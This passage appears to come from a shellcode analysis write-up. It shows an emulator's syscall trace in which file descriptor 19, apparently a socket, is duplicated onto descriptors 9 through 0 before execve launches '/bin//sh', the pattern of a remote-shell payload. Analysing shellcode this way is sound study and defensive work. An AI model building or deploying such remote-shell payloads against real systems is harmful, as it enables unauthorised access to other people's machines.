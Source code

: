      int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;

{% endhighlight %}
